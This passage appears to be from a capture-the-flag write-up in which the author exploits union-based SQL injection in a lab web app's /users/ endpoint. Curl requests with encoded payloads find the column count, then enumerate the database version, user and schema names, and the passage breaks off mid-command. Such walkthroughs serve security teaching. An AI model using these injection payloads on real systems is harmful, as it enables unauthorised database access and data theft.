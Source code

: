 Next I’ll check to see if I can use `UNION` to get data. First, I need to
figure out how many columns are being returned. Based on the json, it’s
probably one, and I can confirm that:

    
    
    root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%201;--%20-"
    {"username":"1"}
    
    root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%201,1;--%20-"
    <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
    <title>500 Internal Server Error</title>
    <h1>Internal Server Error</h1>
    <p>The server encountered an internal error and was unable to complete your request.  Either the server is overloaded or there is an error in the application.</p>
    

It works when I do `' union select 1;-- -`, but not when i do `' union select
1,1;-- -`.

#### Enumeration

Now that I have union working, I’ll enumerate the database. First, the version
(and using `jq` to isolate it, check out [my jq post](/2018/12/19/jq.html) if
this is new to you):

    
    
    root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20version();--%20-" | jq .username
    "5.5.59-MariaDB-1~wheezy"
    

Now I’ll get the database user and the current database:

    
    
    root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20user();--%20-" | jq -r '.username'
    dorthi@10.100.10.6
    
    root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20database();--%20-" | jq -r '.username'
    ozdb
    

Next I’ll print the databases. But I run into a problem - it only returns one:

    
    
    root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20schema_name%20FROM%20information_schema.schemata;--%20-" | jq -r '.username'
    information_schema
    

I know there’s at least another named `ozdb`. In fact, I can get that using
`limit` and `offset`:

    
    
    root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20schema_name%20FROM%20information_schema.schemata%20limit%201%20offset%200;--%20-" | jq -r '.username'
    information_schema
    root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20schema_name%20FROM%20information_schema.schemata%20limit%201%20offset%201;--%20-" | jq -r '.username'
    mysql
    root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20schema_name%20FROM%20information_schema.schemata%20limit%201%20offset%202;--%20-" | jq -r '.username'
    ozdb
    root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20schema_name%20FROM%20information_schema.schemata%20limit%201%20offset%203;--%20-" | jq -r '.username'
    performance_schema
    root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20schema_name%20FROM%20information_schema.schemata%20limit%201%20offset%204;--%20-" | jq -r '.username'
    null
    root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20schema_name%20F
    
